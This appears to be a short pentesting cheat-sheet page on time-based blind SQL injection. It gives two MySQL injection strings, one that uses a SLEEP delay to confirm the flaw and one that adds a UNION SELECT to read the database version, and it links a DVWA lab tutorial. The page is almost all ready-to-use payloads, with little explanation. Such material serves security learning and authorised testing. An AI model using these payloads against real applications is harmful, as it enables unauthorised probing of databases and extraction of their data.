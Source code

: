# Time-Based Blind Query SQL Injection

```sql
' OR IF(1=1, SLEEP(5), 0)#
```

```sql
' OR IF(1=1, SLEEP(5), 0) UNION SELECT (SELECT version())#
```

## References

- [Learning Web Pentesting With DVWA Part 3: Blind SQL Injection](http://moinkhans.blogspot.com/2020/03/learning-web-pentesting-with-dvwa-part_28.html)